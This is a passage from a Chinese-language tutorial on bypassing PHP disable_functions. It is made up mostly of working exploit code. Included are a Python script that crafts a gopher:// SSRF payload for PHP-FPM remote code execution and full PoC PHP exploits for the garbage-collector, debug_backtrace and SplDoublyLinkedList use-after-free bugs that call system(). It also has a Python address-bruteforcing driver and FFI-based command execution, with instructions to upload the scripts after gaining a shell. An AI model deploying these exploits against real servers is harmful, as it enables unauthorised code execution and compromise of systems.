        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value
 
    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header
 
    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))
 
        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record
 
    def request(self, nameValuePairs={}, post=''):
       # if not self.__connect():
        #    print('connect failure! please check your fasctcgi-server !!')
         #   return
 
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
 
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
 
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
        #print base64.b64encode(request)
        return request
        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)
 
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
 
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
 
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
 
 
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
 
    args = parser.parse_args()
 
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    response = urllib.quote(response)
    print("gopher://127.0.0.1:" + str(args.port) + "/_" + response)

```

使用脚本，运行下列命令

```php
python fpm_ssrf.py -c '<?php echo `id`;exit;?>' -p 9000 127.0.0.1 /usr/local/lib/php/PEAR.php
```

得到Gopher协议包数据

```php
gopher://127.0.0.1:9000/_%01%01z1%00%08%00%00%00%01%00%00%00%00%00%00%01%04z1%01%E7%00%00%0E%02CONTENT_LENGTH23%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04z1%00%00%00%00%01%05z1%00%17%00%00%3C%3Fphp%20echo%20%60id%60%3Bexit%3B%3F%3E%01%05z1%00%00%00%00
```

 在打SSRF前，由于在服务端中Nginx和FPM分别会进行一次URL解码，所以上述得到的**还要再编码一次**才能使用

### **攻击Unix套接字模式下的PHP-FPM**

上面讲的都是php-fpm通过TCP方式与nginx连接，那如果php-fpm通过unix套接字与nginx连接该怎么办

```php
<?php 
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```

默认套接字的位置在/run/php/php7.3-fpm.sock（7.3是php版本号）

 如果不在的话可以通过默认/etc/php/7.3/fpm/pool.d/www.conf 配置文件查看套接字路径 或者 TCP模式的端口号
 当然，如果采用套接字的方式连接，我们暂时不能使用ssrf来攻击php-fpm，只能通过linux的数据流来进行数据传递，相对于tcp还是比较安全的
 exp的话，把上面那个exp的最后三行改下就行了，如果是base64数据传输换成base64encode，如果直接传的话把gopher的字符串去掉。

# 0x08 利用GC UAF

## 使用条件

- Linux系统
- 7.0<=php版本<=7.3 all version to date

## 原理简述

此漏洞利用PHP垃圾收集器中存在三年的一个bug，通过PHP垃圾收集器中堆溢出来绕过disable_function并执行系统命令

贴脚本https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```

脚本利用

先拿到shell，然后上传脚本



这里的exp.php中的开头改成了

```php
pwn($_POST['whoami']);//在此处放入想要执行的系统命令,这样用POST传参进去就可以了
```



# 0x09 利用Backtrace UAF

## 使用条件

- Linux系统
- PHP版本–>7.0-7.2all version to date
- 7.3<7.3.15 (released 20 Feb 2020)
- 7.4<7.43(released 20 Feb 2020)

## 原理简述

 该漏洞利用在debug_backtrace()函数中使用了两年的一个 bug。我们可以诱使它返回对已被破坏的变量的引用，从而导致释放后使用漏洞。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass

## 脚本利用

同上，在确认存在disable_function后，找到一个目录有上传文件的权限，上传脚本

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

# 0x10 利用 SplDoublyLinkedList UAC

## 使用条件

- PHP v7.4.10及其之前版本
- PHP v8.0(Alpha)

## 原理简述

 2020年9月20号有人在 bugs.php.net 上发布了一个新的 UAF BUG，报告人已经写出了 bypass disabled functions 的利用脚本并且私发了给官方，不过官方似乎还没有修复，原因不明。

 PHP的SplDoublyLinkedList双向链表库中存在一个用后释放漏洞，该漏洞将允许攻击者通过运行PHP代码来转义disable_functions限制函数。在该漏洞的帮助下，远程攻击者将能够实现PHP沙箱逃逸，并执行任意代码。更准确地来说，成功利用该漏洞后，攻击者将能够绕过PHP的某些限制，例如disable_functions和safe_mode等等

传送门：https://xz.aliyun.com/t/8355#toc-3

## 脚本利用

也是在确认存在disable_function后，找到一个目录有上传文件的权限，上传脚本

```php
<?php
error_reporting(0);
$a = str_repeat("T", 120 * 1024 * 1024);
function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}

function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}

function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s -> current());
}

function getPHPChunk($maps) {
    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        if (($length = s2i(hex2bin($end)) - s2i(hex2bin($start))) >= 0x200000 && $length <= 0x300000) {
            $address = array(s2i(hex2bin($start)), s2i(hex2bin($end)), $length);
            echo "[+]PHP Chunk: " . $start . " - " . $end . ", length: 0x" . dechex($length) . "\n";
            return $address;
        }
    }
}

function bomb1(&$a) {
    if (leak($a, s2i($_GET["test1"])) === 0x5454545454545454) {
        return (s2i($_GET["test1"]) & 0x7ffff0000000);
    }else {
        die("[!]Where is here");
    }
}

function bomb2(&$a) {
    $start = s2i($_GET["test2"]);
    return getElement($a, array($start, $start + 0x200000, 0x200000));
    die("[!]Not Found");
}

function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)){
                echo "[+]SplDoublyLinkedList Element: " . dechex($addr + $y * 0x08 - 0x18) . "\n";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}

function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    }while(leak($a, $address) !== 0x00);
    echo "[+]Closure Chunk: " . dechex($address) . "\n";
    return $address;
}

function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) {
            break;
        }
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) {
            continue;
        }
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") {
            return leak($a, $addr + 0x08);
        }
    }
}

class Trigger {
    function __destruct() {
        global $s;
        unset($s[0]);
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, 7);
        $s -> current();
        $s -> next();
        if ($s -> current() !== 0x1234567812345678) {
             die("[!]UAF Failed");
        }
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) {
            cantRead($a);
        }else {
            canRead($maps, $a);
        }
        echo "[+]Done";
    }
}

function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) {
        die("[!]Get Closure Chunk Address Failed");
    }
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+]Closure Object: " . dechex($closure_object) . "\n";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+]Closure Handler: " . dechex($closure_handlers) . "\n";
    if(!($system_address = getSystem($a, $closure_handlers))) {
        die("[!]Couldn't determine system address");
    }
    echo "[+]Find system's handler: " . dechex($system_address) . "\n";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s -> current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s -> current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    echo "[+]Executing command: \n";
    ($s -> current())("php -v");
}

function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) {
        die("[!]Get PHP Chunk Address Failed");
    }
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

function cantRead(&$a) {
    global $s;
    i2s($a, 0x08, 0x06, 7);
    if (!isset($_GET["test1"]) && !isset($_GET["test2"])) {
        die("[!]Please try to get address of PHP Chunk");
    }
    if (isset($_GET["test1"])) {
        die(dechex(bomb1($a)));
    }
    if (isset($_GET["test2"])) {
        $elementAddress = bomb2($a);
    }
    if (!$elementAddress) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

$s = new SplDoublyLinkedList();
$s -> push(new Trigger());
$s -> push("Twings");
$s -> push(function($x){});
for ($x = 0;$x < 0x100;$x++) {
    $s -> push(0x1234567812345678);
}
$s -> rewind();
unset($s[0]);
```

python部分比较简单，写好爆破部分就成，我写的很烂，师傅们看个大概就好：

```python
# -*- coding:utf8 -*-
import requests
import base64
import time
import urllib
from libnum import n2s


def bomb1(_url):
    content = None
    count = 1
    addr = 0x7f0000000000  # change here and bomb1() in php if failed
    while True:
        try:
            addr = addr + 0x10000000 / 2
            if count % 100 == 0:
                print "[+]Bomb " + str(count) + " times, address of first chunk maybe: " + str(hex(addr))
            content = requests.post(_url + "?test1=" + urllib.quote(n2s(addr)), data={
                "c": "eval(base64_decode('" + payload + "'));",
            }).content
            if "[!]" in content or "502 Bad Gateway" in content:
                count += 1
                continue
            break
        except:
            count += 1
            continue
    return content


def bomb2(_url, _addr1):
    content = None
    count = 1
    crashcount = 0
    while True:
        try:
            _addr1 = _addr1 + 0x200000
            if count % 10 == 0:
                print "[+]Bomb " + str(count) + " times, address of php chunk maybe: " + str(hex(_addr1))
            content = requests.post(_url + "?test2=" + urllib.quote(n2s(_addr1)), data={
                "c": "eval(base64_decode('" + payload + "'));",
            }).content
            if "[!]" in content or "502 Bad Gateway" in content:
                count += 1
                continue
            break
        except:
            count += 1
            crashcount += 1
            continue
    print "[+]PHP crash " + str(crashcount) + " times"
    return content


payload = open("xxx.php").read()
payload = base64.b64encode("?>" + payload)
url = "http://x.x.x.x:x/eval.php"
print "[+]Execute Payload, Output is:"
content = requests.post(url, data={
    "c": "eval(base64_decode('" + payload + "'));",
}).content
if "[!]Please try to get address of PHP Chunk" in content:
    addr1 = bomb1(url)
    if addr1 is None:
        exit(1)
    print "---------------------------------------------------------------------------------"
    addr2 = bomb2(url, int(addr1, 16))
    if addr2 is None:
        exit(1)
    print "---------------------------------------------------------------------------------"
    print addr2
else:
    print content
print "[+]Execute Payload Over."
```

# 0x11 利用FFI扩展执行命令

## 使用条件

1. Linux系统
2. PHP>=7.4
3. 开启了FFI扩展且ffi.enable=true

## 原理简述

 PHP7.4的FFI(Foreign Function Interface)，即外部函数接口，允许从用户在PHP代码中去调用C代码。

 分为声明和调用两步，首先使用FFI::cdef()函数在PHP中声明一个我们要调用的这个C库中的函数以及使用到的数据类型，类似如下：

    $ffi = FFI::cdef("int system(char* command);");#声明C语言中的system函数

这将返回一个新创建的FFI对象，然后使用以下方法即可调用这个对象中所声明的函数：

    $ffi->system("ls / > /tmp/res.txt");#执行ls /命令并将结果写入/tmp/res.txt

 由于system函数执行命令无回显，所以需要把结果写入到有权限的目录中，最后再使用

echo file_get_contents(“/tmp/res.txt”);查看执行结果

## 题目复现**[极客大挑战 2020]FighterFightsInvincibly**

查看源码，发现

```php
$_REQUEST[‘fighter’]($_REQUEST[‘fights’],$_REQUEST[‘invincibly’]);
```

联想到**create_function代码注入**:（解释在下图）

```php
create_function(string $args,string $code)
string $args声明的函数变量部分	string $code执行的方法代码部分 
```

